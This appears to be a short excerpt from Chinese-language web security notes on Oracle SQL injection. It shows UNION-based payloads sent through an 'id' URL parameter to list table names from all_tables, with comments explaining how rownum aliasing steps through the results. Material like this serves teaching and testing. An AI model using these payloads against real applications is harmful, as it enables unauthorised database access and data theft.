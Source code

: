 ```sql
//获取表名    owner指定的是用户
select table_name from all_tables where rownum=1 and owner='test' and table_name not in ();
#payload(1):
?id=-1 union select table_name from all_tables where rownum=1 and owner='TEST' and table_name not in ('xxx')
#payload(2):
//将表名格式化字符串，然后先取出所有的表名去重，再将行数作为另一个字段，再从这个（表名，行数）表里查表名，限制条件为行数LIMIT(行数改名)
?id=-1 union select CAST(table_name as varchar(400)) from (select table_name,rownum as LIMIT from (select DISTINCT(table_name) from all_tables where owner='TEST')) where LIMIT=1 -- +
```







![image-20210719111901011](websafe/image-20210719111901011.png)

